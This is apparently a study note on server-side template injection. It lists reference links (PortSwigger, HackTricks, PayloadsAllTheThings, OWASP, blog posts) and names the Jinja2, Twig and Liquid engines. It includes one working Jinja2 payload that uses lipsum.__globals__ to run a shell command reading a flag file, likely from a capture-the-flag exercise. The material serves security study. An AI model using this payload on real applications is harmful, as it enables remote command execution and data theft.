 https://portswigger.net/web-security/server-side-template-injection/exploiting
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti
https://www.invicti.com/blog/web-security/exploiting-ssti-and-xss-in-cms-made-simple/
https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/GreHack_2021_-_Optimizing_Server_Side_Template_Injections_payloads_for_jinja2_paper.pdf
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

https://jinja.palletsprojects.com/en/3.1.x/templates/?highlight=lipsum#jinja-globals.lipsum
```
{{lipsum.__globals__.os.popen('cat flag.log').read()}}
```

https://github.com/dotboris/vuejs-serverside-template-xss

https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/

https://owasp.org/www-pdf-archive/Owasp_SSTI_final.pdf

- https://github.com/twigphp/Twig
- https://shopify.github.io/liquid/
- Jinja2